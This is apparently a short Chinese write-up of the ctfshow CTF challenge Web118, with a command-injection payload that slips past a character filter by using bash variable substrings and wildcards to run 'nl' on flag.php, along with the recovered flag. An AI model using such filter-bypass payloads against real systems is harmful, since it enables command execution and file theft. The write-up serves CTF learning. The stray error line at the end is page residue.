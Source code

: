 

## Web118

fuzz：测试未被过滤字符发现只有`[A-Z]@#$~-`可以通过，本来想用php临时文件的方式绕过但是/和[]都被过滤了

![web118_bypass](./image/web118_bypass.png)

## 思路一：

看了下hint用了bash环境变量的方式+bash字符串操作的方式构造了payload

payload

```
$PATH一般结尾是/bin,这里的$PWD又是/var/www/html
code=${PATH:~A}${PWD:~A}$IFS????.???   # 等于nl ????.??? ，题目中说了flag在flag.php中
flag=ctfshow{640a7471-0143-4df0-a5e7-9057c321507c}
```


[ERROR]: could not find driver